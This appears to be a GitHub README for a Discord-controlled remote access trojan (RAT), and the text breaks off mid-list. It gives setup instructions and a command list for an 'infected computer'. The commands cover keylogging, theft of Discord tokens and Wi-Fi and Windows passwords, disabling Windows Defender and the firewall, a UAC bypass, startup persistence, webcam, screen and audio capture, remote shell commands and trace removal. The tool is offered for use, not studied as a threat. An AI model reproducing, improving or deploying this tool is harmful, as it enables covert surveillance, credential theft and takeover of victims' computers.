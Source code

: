 # Discord Remote Access Tool

A remote access tool controlled over Discord updated with over 60 post-exploitation modules.

## Credits
This project was originally made by https://github.com/Sp00p64/DiscordRAT. I expanded its modules and improved its code.

Credit goes to him for all the original modules and the ReadME. 

## Setup
You will first need to register a bot with the Discord developer portal and then add the bot to the Discord server that you want to use to control the bot (make sure the bot has administrator privileges in the Discord server).
Once the bot is created copy the token of your bot and paste it at line 20.

Install requirements :
```
pip3 install -r requirements.txt
```
If the steps above were successful, you can launch the python file by executing ```python RAT.py```. It will create a new channel and post a message on the server with a generated session number.
Now your bot should be available to use ! 

Requirements:
Python3, Windows(x64)

## Modules
```
Available commands are :

!admincheck = Check if program has admin privileges

!audio = play an audio file on the target computer(.wav only) / Syntax = "!audio" (with attachment)

!blockinput = Blocks user's keyboard and mouse / Warning: Admin rights are required

!bluescreen = BlueScreen PC

!cd = Changes directory

!clipboard = Retrieve infected computer clipboard content

!critproc = make program a critical process. meaning if it's closed the computer will bluescreen (Admin rights are required)

!currentdir = display the current dir

!dateandtime = display system date and time

!delete = deletes a file / Syntax = "!delete /path/to/the/file.txt"

!disableantivirus = permanently disable windows defender (requires admin)

!disablefirewall = disable windows firewall (requires admin)

!displaydir = display all items in current dir

!displayoff = turn off the monitor (Admin rights are required)

!displayon = turn on the monitors (Admin rights are required)

!distaskmgr = disable task manager (Admin rights are required)

!download = Download a file from infected computer

!dumpkeylogger = Dumps the keylog

!ejectcd = eject the cd drive on the computer

!enbtaskmgr = enable task manager (if disabled) (Admin rights are required)

!exit = Exit program

!geolocate = Geolocate computer using latitude and longitude of the IP address with Google Maps / Warning: Geolocating IP addresses is not very precise

!getdiscordinfo = get discord token, email, phone number, etc

!getwifipass = get all the wifi passwords on the current device (Admin rights are required)

!hide = hide the file by changing the attribute to hidden

!history = Get chrome browser history

!idletime = Get the idle time of user's on target computer

!kill = Kill a session or all sessions / Syntax = "!kill session-3" or "!kill all"

!logoff = log off current user

!message = Show a message box displaying your text / Syntax = "!message example"

!prockill = kill a process by name / syntax = "!kill process.exe"

!recam = record camera for a certain amount of time / syntax = "!reccam 10"

!recaudio = record audio for a certain amount of time / syntax = "!recaudio 10"

!recscreen = record screen for a certain amount of time / syntax = "!recscreen 10"

!restart = restart computer

!retractcd = retract the cd drive on the computer

!screenshot = Get the screenshot of the user's current screen

!selfdestruct = delete all traces that this program was on the target PC

!shell = Execute a shell command / Syntax = "!shell whoami"

!shutdown = shutdown computer

!startkeylogger = Starts a keylogger

!startup = add file to startup (when the computer goes on this file starts) (Admin rights are required)

!stopkeylogger = Stops keylogger

!stopscreen = stop screen stream

!stopwebcam = stop webcam stream

!streamscreen = stream screen by sending multiple pictures

!streamwebcam = streams webcam by sending multiple pictures

!sysinfo = Gives info about the infected computer

!uacbypass = attempt to bypass UAC to gain admin by using fod helper

!unblockinput = Unblocks user's keyboard and mouse / Warning: Admin rights are required

!uncritproc = if the process is a critical process it will no longer be a critical process meaning it can be closed without bluescreening (Admin rights are required)

!unhide = unhide the file by removing the attribute to make it unhidden

!upload = Upload file to infected computer / Syntax = "!upload file.png" (with attachment)

!voice = Make a voice say out loud a custom sentence / Syntax = "!voice test"

!volumemax = Put volume to max

!volumezero = Put volume at 0

!wallpaper = Change infected computer wallpaper / Syntax = "!wallpaper" (with attachment)

!webcampic = Take a picture from the webcam

!website = open a website on the infected computer / syntax = "!website google.com" or "!website www.google.com"

!windowspass = attempt
```
